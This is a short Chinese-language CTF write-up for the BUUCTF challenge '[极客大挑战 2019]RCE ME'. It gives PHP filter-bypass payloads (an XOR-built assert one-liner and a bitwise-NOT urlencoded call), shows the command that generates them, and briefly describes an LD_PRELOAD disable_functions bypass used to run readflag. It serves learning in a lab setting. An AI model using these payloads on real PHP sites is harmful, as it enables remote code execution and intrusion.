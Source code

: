 # buu摸鱼日记（23）

## [极客大挑战 2019]RCE ME

这个题目在RCE方面是比较有趣的了

即使过了一年，感觉这个题目还是有难度的

这题有几个方法

法1亦或绕过：

```php
?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=执行的命令

$_ = _GET
中间那个就构造了
${_GET}['assert'](${_GET}[命令]);
达到了一句话的效果
(感觉这payload...挺复杂的？)
    
后来看到个简单的（正常）
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
就是${_GET}{phpinfo}();
```

法2：

```php
?code=(~%8F%97%8F%96%91%99%90)();
```

取反urlencode一把梭哈

```php
php -r "echo urlencode(~'phpinfo');"
%8F%97%8F%96%91%99%90⏎ 
```

弄了webshell以后发现啥权限都没有，属实屑webshell

/tmp可上传，然后[利用环境变量LD_PRELOAD来绕过php disable_function执行系统命令](https://wooyun.js.org/drops/利用环境变量LD_PRELOAD来绕过php disable_function执行系统命令.html)

就可以执行readflag，保存到tmp里

https://evoa.me/archives/16/ EVOA师傅的官方wp

